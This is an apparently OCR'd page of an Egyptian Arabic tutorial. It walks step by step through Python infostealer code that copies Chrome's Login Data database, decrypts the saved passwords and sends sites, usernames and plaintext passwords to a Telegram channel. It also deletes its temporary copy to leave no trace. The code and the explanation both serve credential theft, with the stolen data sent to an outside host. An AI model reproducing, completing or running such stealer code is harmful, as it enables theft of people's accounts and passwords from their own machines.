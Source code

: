 ```python
        credentials = []
        for row in rows:
            url, username, encrypted_password = row
            if username and encrypted_password:
                password = decrypt_password(encrypted_password, encryption_key)
                credentials.append(f"🌐 الموقع: {url}\n👤 الإيميل/اسم المستخدم: {username}\n🔒 كلمة المرور: {password}")
            else:
                credentials.append(f"🌐 الموقع: {url}\n👤 الإيميل/اسم المستخدم: {username or '[غير متوفر]'}\n🔒 كلمة المرور: [غير متوفرة]")
        conn.close()
        os.remove(temp_db)
        if credentials:
            message = "📋 بيانات تسجيل الدخول من Chrome:\n\n" + "\n\n".join(credentials)
            send_to_telegram_split(message)
        else:
            send_to_telegram_split("⚠️ لم يتم العثور على بيانات صالحة لتسجيل الدخول في Chrome.")
    except Exception as e:
        send_to_telegram_split(f"⚠️ خطأ عام أثناء استخراج بيانات المتصفح: {str(e)}")
        if os.path.exists(temp_db):
            os.remove(temp_db)
```

- **إيه اللي بيحصل هنا؟**:
  - الدالة دي هي اللي بتجمع كل حاجة مع بعض. بتدخل على مكان الباسوردات في كروم، تجيبها، وتفك تشفيرها.
  - **الخطوة الأولى**: بيروح يدور على ملف إسمه `Login Data` في:
    ```
    C:\Users\إسمك\AppData\Local\Google\Chrome\User Data\Default\Login Data
    ```
    - الملف ده زي قاعدة بيانات (SQLite) فيها كل الباسوردات المحفوظة.
    - لو ما لقاش الملف، بيبعت رسالة لتيليجرام يقول "ملف Login Data مش موجود" ويخلّص.
  - **الخطوة التانية**: بيعمل نسخة مؤقتة من الملف ده في الـ Temp (مكان زي `C:\Users\إسمك\AppData\Local\Temp\Login_Data_temp`) باستخدام `shutil.copy2`.
    - بيعمل نسخة عشان ما يغيّرش الملف الأصلي وما يسيبش أثر.
  - **الخطوة التالتة**: بيفتح النسخة المؤقتة دي زي قاعدة بيانات باستخدام `sqlite3`.
    - بيستخدم أمر SQL زي:
      ```sql
      SELECT origin_url, username_value, password_value FROM logins
      ```
      - اللي بيجيب:
        - `origin_url`: رابط الموقع (زي `https://facebook.com`).
        - `username_value`: الإيميل أو اسم المستخدم (زي `ahmed@example.com`).
        - `password_value`: الباسورد المشفر (زي `v10abc123xyz`).
  - **الخطوة الرابعة**: بيجيب مفتاح التشفير باستخدام `get_encryption_key()`.
    - لو ما قدرش يجيب المفتاح، بيبعت رسالة لتيليجرام يقول "تعذر استخراج مفتاح التشفير"، يقفل القاعدة، يمسح الملف المؤقت، ويخلّص.
  - **الخطوة الخامسة**: بيمر على كل سجل في القاعدة:
    - لو فيه إيميل وباسورد مشفر، بيستخدم `decrypt_password(encrypted_password, encryption_key)` عشان يفك الباسورد.
    - بيحط الموقع، الإيميل، والباسورد في لستة، زي:
      ```
      🌐 الموقع: https://facebook.com
      👤 الإيميل/اسم المستخدم: ahmed@example.com
      🔒 كلمة المرور: MyPass123
      ```
    - لو مافيش إيميل أو باسورد، بيحط "[غير متوفر]" عشان الرسالة تبقى مرتبة.
  - **الخطوة السادسة**: بيقفل قاعدة البيانات وبيمسح الملف المؤقت.
  - **الخطوة الأخيرة**: لو لقى باسوردات، بيحطهم في رسالة كبيرة (كل باسورد منفصل عن التاني بمسافة) وبيبعتها لتيليجرام باستخدام `send_to_telegram_split`.
    - لو ما لقاش ولا باسورد، بيبعت رسالة يقول "لم يتم العثور على بيانات صالحة".
    - لو حصل أي خطأ في أي خطوة، بيبعت رسالة يقول إيه المشكلة ويمسح الملف المؤقت لو لسه موجود.
